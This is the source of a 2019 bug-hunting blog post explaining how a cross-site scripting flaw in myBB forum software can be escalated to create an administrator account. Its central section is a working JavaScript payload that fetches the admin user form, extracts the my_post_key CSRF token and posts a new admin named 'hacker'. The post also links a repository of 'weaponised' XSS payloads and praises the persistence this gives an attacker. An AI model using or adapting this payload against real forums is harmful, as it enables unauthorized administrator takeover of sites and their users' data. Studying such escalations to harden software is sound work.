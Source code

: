 ```yaml
---
layout: post
title:	"myBB - Add Administrator via XSS"
date:	2019-05-29 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> myBB - Add Administrator via XSS </title>
</head>


# i. Introduction
While browsing Twitter, I happened to come upon [hakluke's](https://twitter.com/hakluke) blog post about upgrading an XSS from a medium to a critical bug. Long story short it detailed on how an XSS is able to bypass most CSRF protection mechanisms, and completely bypassing the Same Origin Policy. The most popular anti-CSRF mechanism are CSRF tokens. However, Javascript is able to request the form, parse the token, and then send it along with the subsequent request to perform a sensitive action. 

If you would like to read more about how this works, I highly recommend reading hakluke's blog post which can be found here: https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

hakluke included several proof of concepts for popular CMS platforms such as Wordpress and Drupal. I decided I wanted to give it a shot, and try testing it with a forum software that we all know and love... myBB. 

There are several reasons why I chose myBB, however the major one was that developers are able to create their own plugins similar as to Wordpress. By allowing developers to create third party plugins, it opens the door for a plethora of bugs, which XSS seems to be common. 


# ii. Exploitation

I have modified hakluke's original Wordpress script to work with myBB.

Script:
~~~
/*
mybb - adds administrator with username hacker and password hacker12345
tested on latest version of mybb v1.8.20
original script by hakluke modified by mqt
*/
var mybb_root = "" // don't add a trailing slash
var req = new XMLHttpRequest();
var url = mybb_root + "/admin/index.php?module=user-users&action=add";
var regex = /my_post_key" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "my_post_key="+nonce+"&username=hacker&password=hacker12345&confirm_password=hacker12345&email=hacker@hacker.com&usergroup=4&displaygroup=0"; //make sure passwod is 6+ chars
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~ 

In short, in order to perform any sensitive action in the myBB Admin Panel, there is a token that is required which is called my_post_key. The following script sends a request to the myBB Admin Panel form which is responsible for adding a new user (which seems to have a lifespan of 30 minutes before asking the user to reauthenticate). Then it retrieves the source and parses it looking for my_post_key. Once it finishes, it sends a subsequent request to add a user to the Administrator group with the username as hacker and password as hacker12345.


Here is a video proof of concept demonstrating it in action:

[![mybb XSS - Add Administrator]({{ site.baseurl }}/images/posts/2017/mybb-add-admin/video-preview.png)](https://vimeo.com/339213610 "myBB XSS - Add Administrator")

You can find this script and more powerful scripts on the `weaponised-XSS-payloads` repo which can be found here: https://github.com/hakluke/weaponised-XSS-payloads

# iii. Conclusion

What really made this concept interesting to me was that whenever people hear XSS, the first thing that pops into mind is cookie stealing. While cookie stealing can be very powerful, there are some downsides. One major downside occurs in stored XSS. In stored XSS, it is hard to gauge whenever the payload will execute. In a lot of cases, by the time the payload executes and you receive the cookie, the session is expired by then. However using a script like this, you can ensure that you have some form of persistence.

Once again, all credit goes to [hakluke](https://twitter.com/hakluke) and their wonderful blog post.

As always, thank you for reading.

\- mqt

Sources:
~~~
https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4
~~~

